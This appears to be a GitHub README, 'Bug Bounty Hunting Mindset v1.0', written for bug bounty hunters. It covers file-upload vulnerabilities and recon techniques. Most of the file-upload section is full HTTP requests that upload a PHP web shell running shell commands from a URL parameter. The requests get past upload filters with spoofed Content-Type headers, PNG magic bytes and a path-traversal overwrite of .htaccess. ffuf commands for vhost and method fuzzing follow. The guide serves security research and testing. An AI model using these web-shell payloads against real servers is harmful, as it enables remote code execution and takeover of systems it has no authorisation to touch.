 # Bug Bounty Hunting Mindset v1.0

<h2 align="center"><strong>Bug Bounty Hunting Mindset v1.0</strong></h2>

<p align="center">A focused and practical resource for bug bounty hunters, penetration testers, and red teamers — covering real-world techniques, bypasses, and offensive security insights.</p>

***

<h3 align="center"><strong>Vulnerabilities &#x26; Bypasses:</strong></h3>

> **Info:**
>
> <p align="center">A collection of known vulnerability types with practical methods to bypass filters, protections, and common security mechanisms.</p>

#### <sup>**V01.**</sup>**&#x20;Insecure file uploads: A complete guide to finding advanced file upload vulnerabilities:**

1. **Identifying file upload vulnerabilities**
   * Retrievable
   * Content-Type
2.  **Exploiting simple file upload vulnerabilities**

    * No restrictions

      ```http
      POST /Api/FileUpload.aspx HTTP/2
      Host: console.example.com
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
      Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
      Accept: */*
  
      ------WebKitFormBoundary3RwPFJztxaJvrqAq
      Content-Disposition: form-data; name="file"; filename="shell.php"
      Content-Type: application/x-php
  
      <?php echo system($_GET['e']); ?>
      ------WebKitFormBoundary3RwPFJztxaJvrqAq--
      ```

    * Bypassing client-side restrictions
      *   HTML "accept" attribute

          ```html
          <input type="file" accept=".jpg, .jpeg, .png, .gif" />
          ```
      * using proxy interceptors
    *   Bypassing a file extension blacklist

        <p align="center">
          <img src=".gitbook/assets/file-upload-vuln1.png"><br>
          <sub><strong>Bypass file extension exclusion lists</strong></sub>
        </p>

    *   Bypassing a file extension whitelist

        <p align="center">
          <img src=".gitbook/assets/file-upload-vuln2.png" width="600"><br>
          <sub><strong>Bypass file extension inclusion lists</strong></sub>
        </p>


If the file upload implementation determines your file type by the content type, you can also attempt to upload a file with a whitelisted file extension but with your malicious content type:

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.png"
Content-Type: application/x-php

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center">Take note of the <mark style="color:red;">filename</mark> and <mark style="color:red;">Content-Type</mark> in the example request above.</p>

3. **Exploiting advanced file upload vulnerabilities**

* Bypassing content type restrictions

  ```http
  POST /Api/FileUpload.aspx HTTP/2
  Host: console.example.com
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
  Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
  Accept: */*
  
  ------WebKitFormBoundary3RwPFJztxaJvrqAq
  Content-Disposition: form-data; name="file"; filename="shell.php"
  Content-Type: image/png
  
  <?php echo system($_GET['e']); ?>
  ------WebKitFormBoundary3RwPFJztxaJvrqAq--
  ```

* Magic bytes
  *   These are the magic bytes for a normal image (PNG) in HEX:

      `89 50 4E 47 0D 0A 1A 0A`

      ```http
      POST /Api/FileUpload.aspx HTTP/2
      Host: console.example.com
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
      Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
      Accept: */*
      
      ------WebKitFormBoundary3RwPFJztxaJvrqAq
      Content-Disposition: form-data; name="file"; filename="shell.php"
      Content-Type: application/x-php
      
      ‰PNG␍␊␚␊
      <?php echo system($_GET['e']); ?>
      ------WebKitFormBoundary3RwPFJztxaJvrqAq--
      ```

<p align="center"><a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures - Wikipedia</a></p>

* Overwriting server configuration files
  * .htaccess

  ```http
  POST /Api/FileUpload.aspx HTTP/2
  Host: console.example.com
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
  Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
  Accept: */*
  
  ------WebKitFormBoundary3RwPFJztxaJvrqAq
  Content-Disposition: form-data; name="file"; filename="../../../.htaccess"
  Content-Type: text/plain
  
  # Your server configuraton rules
  ------WebKitFormBoundary3RwPFJztxaJvrqAq--
  ```

***

#### <sup>**V02.**</sup>

***

<h3 align="center"><strong>Hunting Techniques &#x26; Ideas:</strong></h3>

> **Info:**
>
> <p align="center">General strategies, techniques, and creative approaches to help you discover more bugs and uncover hidden attack surfaces.</p>

#### <sup>**T01.**</sup>**&#x20;7 Overlooked recon techniques to find more vulnerabilities:**

1. **Targeted wordlists**
   1. [CeWL](https://github.com/digininja/CeWL)
2. **Virtual host (VHost) enumeration**

  ```sh
  ffuf -u https://example.com -H "Host: FUZZ.example.com" -w /path/to/wordlist
  ```

3. **Forced browsing using different HTTP methods**

  ```sh
  ffuf -u https://api.example.com/PATH -X METHOD -w /path/to/wordlist:PATH -w /path/to/http_methods:METHOD
  ```

4. **JavaScript file monitoring**
   1. [JSMON](https://github.com/robre/jsmon)
5. **Crawling with different user-agent headers**
   1. <kbd>Proxy → Proxy settings → Tools → Proxy → HTTP match and replace rules</kbd>
6. **Finding related assets with favicon hashes**
   1. [Shodan](https://www.shodan.io/)
   2. [Censys](https://search.censys.io/)
7. **Looking up legacy versions of JavaScript files**
   1. [internet archives](https://archive.org/)

***

#### <sup>**T02.**</sup>

***

<h3 align="center"><strong>Closing Note:</strong></h3>

It is my pleasure and honor to have your support and follow-up. I look forward to exchanging knowledge and collaborating with you in the field of cybersecurity.

Stay connected:

* **X Platform:** [iProgrammer16](https://x.com/iProgrammer16)
* **X Platform:** [1ZeroDay](https://x.com/1ZeroDay)
* **LinkedIn:** [Linkedin](https://www.linkedin.com/in/saleh16abdullah/)
* **Github:** [iProgrammer16](https://github.com/iProgrammer16)
* **Telegram Channel:** [1ZeroDay](https://t.me/+ylDx8zGNLEwzMWU8)
* **For collaboration on HackerOne:** [HackerOne Profile - iProgrammer16](https://hackerone.com/iprogrammer16)
* **All social links in one place:** [Linktr](https://linktr.ee/1ZeroDay)
